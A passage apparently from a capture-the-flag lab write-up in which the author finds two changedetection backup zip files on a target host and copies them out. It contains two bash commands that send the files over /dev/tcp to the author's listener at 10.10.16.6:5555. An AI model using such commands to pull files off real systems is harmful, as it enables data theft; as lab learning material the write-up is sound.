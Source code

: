 Following the path `datastore/Backups/` , we found 2 interesting zip files 

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927211621.png" alt="1" style="width:700px; height:auto;">
<br/>

Sending them to my local machine using this trick 

```bash
cat changedetection-backup-20240830194841.zip >& /dev/tcp/10.10.16.6/5555 0>&1
```

```bash
cat changedetection-backup-20240830202524.zip >& /dev/tcp/10.10.16.6/5555 0>&1
```

We get the files  

<br/> 
<img src="/img/trickster_screenshots/Pasted image 20240927212330.png" alt="1" style="width:700px; height:auto;">
<br/>

